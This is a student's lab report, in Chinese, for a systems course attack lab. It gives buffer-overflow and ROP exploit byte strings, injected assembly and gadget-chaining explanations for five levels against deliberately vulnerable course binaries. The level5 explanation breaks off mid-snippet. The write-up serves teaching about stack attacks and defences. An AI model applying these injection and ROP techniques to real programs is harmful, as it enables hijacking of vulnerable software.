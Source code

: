 # ICSⅠ Lab3 报告

计算机科学与技术

19307130296

孙若诗

## 运行截图

* **level1**

![avatar](level1.png)  

* **level2**  

![avatar](level2.png)

* **level3**

![avatar](level3.png)

* **level4**

![avatar](level4.png)

* **level5**

![avatar](level5.png)

## 字符答案

* **level1**  
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
c0 17 40 00 00 00 00 00
* **level2**
48 c7 c7 fa 97 b9 59 68
ec 17 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
* **level3**
48 c7 c7 a8 dc 61 55 68
fa 18 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
35 39 62 39 39 37 66 61
* **level4**
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
ab 19 40 00 00 00 00 00
fa 97 b9 59 00 00 00 00
a2 19 40 00 00 00 00 00
ec 17 40 00 00 00 00 00
* **level5**
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
06 1a 40 00 00 00 00 00
a2 19 40 00 00 00 00 00
ab 19 40 00 00 00 00 00
48 00 00 00 00 00 00 00
dd 19 40 00 00 00 00 00
70 1a 40 00 00 00 00 00
13 1a 40 00 00 00 00 00
d6 19 40 00 00 00 00 00
a2 19 40 00 00 00 00 00
fa 18 40 00 00 00 00 00
35 39 62 39 39 37 66 61

## 解题过程

* **level1**

&emsp;&emsp;阅读getbuf及touch1对应的汇编语句片段，即下图。

![avatar](touch1.png)

&emsp;&emsp;发现getbuf第一句申请了0x28即40个byte的栈空间，如果get的大小超过缓冲区，将产生溢出。

&emsp;&emsp;原本进入getbuf之前栈顶存储的应当是下一句执行语句的地址，则将溢出值设置为touch1首地址4017c0，可以误导程序调用touch1。

&emsp;&emsp;因此答案字符串即为：任意40个byte来填满缓冲区（0a除外，因为它代表\n，会让程序误以为读入结束），后接c0 17 40 00 00 00 00 00，采取小端法。16进制数两个一组，恰好为1个byte；八组一行，整洁直观，便于检查。

&emsp;&emsp;使用cat level1.txt | ./hex2raw | ./ctarget -q验证答案正确。

* **level2**

&emsp;&emsp;阅读touch2，发现它要求调用前%rdi的值已经被赋为cookie。因此需要执行自己的代码，可以利用缓冲区注入。movq可以用于赋值，而pushq可以把touch2的首地址压入栈中，之后ret。则getbuf后栈中从上到下（栈底到栈顶）的内容为：ret-pushq-movq（此句位于%rsp地址）-%rsp地址，执行顺序为：跳转到%rsp-赋值-压栈-返回-读栈顶开始执行touch2。
注入汇编代码如下：

```S
movq $0x59b997fa, %rdi
pushq $0x4017ec
ret
```

&emsp;&emsp;用gcc -c level.s和objdump -d level.o > level.d指令得到机器码，将它注入缓冲区开头。为了让程序从缓冲区开头开始执行，缓冲区后溢出处所放地址应当为%rsp的地址。用gdb在getbuf设置断点，查询出%rsp的地址，具体操作如下。

![avatar](rsp.png)

&emsp;&emsp;因此答案字符串为：注入代码机器码+仍旧补字符到40byte+%rsp地址。

* **level3**

&emsp;&emsp;阅读touch3，发现要求传递的参数为字符串指针类型，这意味着要预先找地方把字符串存下，再把地址传给%rdi。且hexmatch会随机修改栈，因此如果把字符串存在栈中touch3首地址之后的位置，调用touch3时这部分栈已经被执行并处于%rsp之下，hexmatch申请的新buf就可能覆盖这一段栈，字符串的内容可能会被改变。为了方便起见，（以及我并不需要顾虑我的行动如何破坏了之前的栈，只要正确执行完touch3就达到目的，所以可以不负责任地乱放），不妨就把它放到getbuf栈帧之前，即test栈帧。

&emsp;&emsp;有趣的是，注入的代码显然也会位于touch3之后，为什么不担心它被覆盖呢？这是由于这些代码被执行之后，目的已经达到，寄存器已经被正确修改，所以即使它们被覆盖也无所谓；但是我们为%rdi传入的是字符串指针的地址，后续使用的具体值仍然要到原地址去查找，所以它被覆盖是不能接受的。

&emsp;&emsp;此外，还需要把八位的cookie按字符串格式翻译成16进制，man ascii指令可以调出ASCII码表，按位对照查找即可。

&emsp;&emsp;进入解题步骤，getbuf申请了0x28个byte，再向前推一个地址，即%rsp+0x30。首先如下图用gdb语句查询出该地址：0x5561dca8，在%rsp地址之后继续溢出8个byte，将这个地址内容改为16进制字符串即可。

![avatar](brforebuf.png)

&emsp;&emsp;movq和pushq流程与level2类似，要注入的代码为：

```S
movq $0x5561dca8, %rdi
pushq $0x4018fa
ret
```

&emsp;&emsp;因此答案字符串即为：注入代码机器码+仍旧补字符到40byte+%rsp首地址+16进制字符串。

* **level4**

&emsp;&emsp;这一部分和之前的区别是开了栈随机化和栈不可执行，因此不能直接注入自己的代码，只能从farm.c指定的代码片中截取机器码执行。注意仍旧是反汇编rtarget，不是farm.c，farm.c只是指出rtarget中哪一部分函数是允许使用的。

&emsp;&emsp;每一句截取的机器码都必须以代表ret的c3结尾，这会让程序以为这个函数结束了，从而继续从栈上取地址，才能够保持程序一直在控制当中。需要的机器码结尾和c3之间可能有一些90，但是它代表空指令，并不会产生影响。

&emsp;&emsp;由于原机器码中可用的指令十分有限，或许不能像前几个level一样采取最直接的方式达到目的。不过既然它作为一道题目出现在这，就说明一定是可以解的，所以只要在ROPtable上试了足够多的方案，总是能找到通路的。

&emsp;&emsp;注意到能使用的指令只有原代码中指令，register之间的movq、popq、movl、andq、orq、cmpq、testq这几种。因此指望直接把cookie赋给%rdi是不现实的。但是0x4019ab处提供了popq %rax，可以提前把cookie写到栈里，再用popq自然地把值转移到%rax。随后幸运地发现%rax到%rdi的赋值也可以用，最后压入touch2首地址即可。

&emsp;&emsp;总结来说，栈中的内容从底到顶为：touch2-movq-cookie-popq，执行顺序为：弹栈给%rax，同时cookie被pop-赋值-调用touch2。

&emsp;&emsp;要执行的代码片为:

```S
popq %rax
movq %rax, %rdi
```

&emsp;&emsp;因此答案字符串即为：40个byte+popq机器码+cookie+movq机器码+touch2首地址。

* **level5**

&emsp;&emsp;这次仍旧需要把存好的字符串地址传给%rdi。和level4不同的是，字符串地址不能存在touch3调用之后，因此不能直接用popq找到值。为此，考虑赋地址的指令lea，再rtarget中搜索，发现0x4019d6处恰好有一条lea (%rdi,%rsi,1),%rax，非常适合做这种操作。

&emsp;&emsp;围绕这条指令，有如下的思路：将%rdi赋为%rsp，将%rsi赋为偏移量，得到%rax后再赋给%rdi。但是由于指令集的限制，并不能很直接地实现目的。

```S
movq %rsp, %rcx
movq %rcx, %rdx
popq %rax
movq %rax, %rcx
movq %ecx, %edx
movq
```

## 实验总结

1. 了解了程序在缓冲区溢出时存在的安全漏洞，栈随机化（PIE）和栈不可执行（NX）能够在一定程度上提供防护，但仍旧可以通过ROP方法绕过防护。Canary，即push被保存的寄存器后，push一个canary离开时检查是否被修改，能够提供更有效的保护。开始感觉安全攻防是很有趣味的系统实践。

2. 对执行语句和变量地址在栈中的存储和使用顺序有了更清晰的认识。

3. 思考ROP方法中截取机器码的过程，只是在栈中加入了对应机器码的首地址，就可以执行对应命令。可见计算机能够自动识别机器码的开头，并猜测每个开头对应的机器码需要是唯一的，只有这样计算机才知道之后到哪里截止是一条完整的指令。这十分类似哈夫曼树的构造规则，开头互异是消除歧义的有效方法。

4. 关于ROP方法，比漫无目的地尝试更有效的策略是检索farm.c对应代码片中所有可用的指令，然后以寄存器为节点、mov关系为边建立一张图，以能够pop的或已经有有效值的寄存器作为起点，边上的附加信息为对应机器码地址，可以比较清晰地看出可行的变量传递路径。但是这样做的工作量太大了，如果有多个level5规模的需求，可以考虑实施。

5. 有关实验过程中的更多文件和源代码，可查阅[lab3-attack](https://github.com/moyiii-ai/ICS-2020/tree/main/lab3-attack)。感谢老师和助教学长的指导。
